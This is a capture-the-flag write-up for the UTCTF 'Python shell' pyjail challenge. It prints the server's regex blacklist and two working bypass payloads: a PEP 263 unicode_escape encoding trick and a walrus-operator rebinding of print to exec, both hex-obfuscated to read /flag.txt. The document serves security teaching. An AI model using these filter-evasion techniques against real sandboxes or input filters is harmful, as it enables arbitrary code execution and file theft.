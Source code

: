 # Python shell (misc, 943p, 77 solved)

## Description

```
Upload a Python file that can be run by invoking the python command, and we will run it for you. To do so, send the bytes over the stream, and close the write half. stdout will be sent back. For security reasons, we may refuse to run your file if we detect dangerous strings. There is a byte limit and a timeout.

nc misc.utctf.live 4353

The server takes the file, saves it, and runs it with python3 FILE. Consider how python3 FILE is different from cat FILE | python3.

This hint is for the intended solution. There are many ways to solve this problem.
```


## Task analysis

We have a classic pyjail to tackle.
The server is super unstable and we have to submit payloads a few times to get answers.
After some attempts we get back:

```
Blacklist: (eval)|(import)|(open)|(with)|(as)|(from)|(lambda)|(\s*print\s*=\s*)|(?P<paren>\()
Whitelist: (\s*print\s*(?P<paren>\())
```

So it's clear that some stuff are blacklisted and we can only call `print()`.

## Solution

There are at least 2 distinct ways to solve this problem.

### Source file encoding

First comes from the hint that they run the script as `python FILE`.
This implies we can use special tricks like set file encoding as in PEP 263.
We can submit:

```python
# coding: unicode_escape
\x70\x72\x69\x6e\x74\x28\x6f\x70\x65\x6e\x28\x27\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29\x2e\x72\x65\x61\x64\x28\x29\x29
```

to invoke
```python
print(open('/flag.txt').read())
```

### Blacklist bypass

Second way comes from missing things in the blacklist.
Specifically it contains neither `exec()` function, nor new `walrus operator`.
Walrus allows us to overwrite `print` symbol and `exec` allows to invoke arbitrary code.

```
p=print
if print:=exec:
    print('\x70\x28\x6f\x70\x65\x6e\x28\x27\x2f\x66\x6c\x61\x67\x2e\x74\x78\x74\x27\x29\x2e\x72\x65\x61\x64\x28\x29\x29')
```

`utflag{unclean_input}`